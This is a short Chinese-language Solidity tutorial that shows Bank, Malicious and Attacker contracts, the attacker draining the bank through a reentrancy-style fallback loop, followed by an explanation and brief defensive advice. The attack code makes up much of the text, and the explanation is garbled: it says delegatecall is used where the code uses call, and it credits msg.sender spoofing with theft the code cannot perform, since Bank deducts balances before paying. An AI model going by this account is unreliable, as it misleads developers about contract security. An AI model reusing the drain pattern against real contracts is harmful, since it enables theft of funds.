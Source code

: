 # 使用外部合约隐藏恶意代码

在Solidity中，可以使用外部合约来扩展智能合约的功能和功能。然而，由于外部合约可能包含恶意代码，因此必须谨慎处理它们，以避免安全漏洞和攻击。

在本示例中，我们将展示如何使用一个名为 `Malicious` 的恶意合约来欺骗用户，并向名为 `Bank` 的另一个合约发送交易，窃取资金。

```solidity
pragma solidity ^0.5.16;

contract Bank {
    mapping(address => uint256) private balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] -= _amount;
        (bool success, ) = msg.sender.call.value(_amount)("");
        require(success);
    }
}

contract Malicious {
    Bank bank;

    constructor(Bank _bank) public {
        bank = Bank(_bank);
    }

    function attack() external {
        bank.withdraw(1 ether);
    }

    function () external payable {
        if (address(bank).balance > 0) {
            bank.withdraw(1 ether);
        }
    }
}

contract Attacker {
    Malicious malicious;

    constructor(Malicious _malicious) public {
        malicious = Malicious(_malicious);
    }

    function attack() external {
        (bool success, ) = address(malicious).call(abi.encodeWithSignature("attack()"));
        require(success);
    }

    function () external payable {
        revert("Fallback function called");
    }
}
```

在此示例中，我们定义了三个合约： `Bank`、`Malicious` 和 `Attacker`。

`Bank` 合约是一个基本的银行合约，允许用户存款、提款和查询余额。合约使用映射来跟踪每个地址的余额，并在执行提款操作时使用委托调用来发送资金。

`Malicious` 合约是一个恶意合约，它接受一个名为 `Bank` 的合约作为参数，并尝试欺骗用户以其身份向 `Bank` 合约发送交易。在 `attack` 函数中，我们尝试向 `Bank` 合约发送1ETH的交易。由于传递给 `withdraw` 函数的 `msg.sender` 变量将被设置为 `Malicious` 合约的地址，而不是用户的真实地址，因此黑客可以成功地从 `Bank` 合约中窃取资金。

`Attacker` 合约是一个攻击者合约，它接受一个名为 `Malicious` 的恶意合约作为参数，并尝试调用其 `attack` 函数。由于调用者将被设置为 `Attacker` 合约的地址，而不是用户的真实地址，因此黑客可以成功地欺骗 `Malicious` 合约并窃取资金。

为了避免这种攻击，我们需要谨慎处理外部合约，并确保信任其代码。如果您正在与其他智能合约交互，请确保理解其工作原理并进行适当的身份验证和授权检查。